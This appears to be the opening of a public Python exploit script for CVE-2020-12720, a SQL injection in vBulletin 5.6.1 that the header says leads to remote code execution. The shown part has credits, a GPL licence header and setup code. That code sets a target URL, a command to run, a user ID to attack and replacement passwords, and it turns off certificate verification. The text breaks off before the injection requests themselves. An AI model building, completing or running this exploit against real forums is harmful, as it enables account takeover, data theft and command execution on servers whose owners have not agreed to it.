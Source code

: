     # Tested on: vBulletin v5.6.1 on Debian 10 x64
    # CVE: CVE-2020-12720 vBulletin v5.6.1 (SQLi) with path to RCE

    #!/usr/bin/env python3
    '''

        
        Copyright 2020 Photubias(c)

            This program is free software: you can redistribute it and/or modify
            it under the terms of the GNU General Public License as published by
            the Free Software Foundation, either version 3 of the License, or
            (at your option) any later version.

            This program is distributed in the hope that it will be useful,
            but WITHOUT ANY WARRANTY; without even the implied warranty of
            MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
            GNU General Public License for more details.

            You should have received a copy of the GNU General Public License
            along with this program.  If not, see <http://www.gnu.org/licenses/>.
            
            File name CVE-2020-12720.py
            written by tijl[dot]deneut[at]howest[dot]be for www.ic4.be

            This is a native implementation without requirements, written in Python 3.
            Works equally well on Windows as Linux (as MacOS, probably ;-)
            
            ##-->> Full creds to @zenofex and @rekter0 <<--##
    '''
    import urllib.request, urllib.parse, sys, http.cookiejar, ssl, random, string

    ## Static vars; change at will, but recommend leaving as is
    sADMINPASS = '12345678'
    sCMD = 'id'
    sURL = 'http://192.168.50.130/'
    sUSERID = '1'
    sNEWPASS = '87654321'
    iTimeout = 5

    ## Ignore unsigned certs
    ssl._create_default_https_context = ssl._create_unverified_context

    ## Keep track of cookies between requests
    cj = http.cookiejar.CookieJar()
    oOpener = urllib.request.build_opener(urllib.request.HTTPCookieProcessor(cj))

    def randomString(stringLength=8):
        letters = string.ascii_lowercase
        return ''.join(random.choice(letters) for i in range(stringLength))
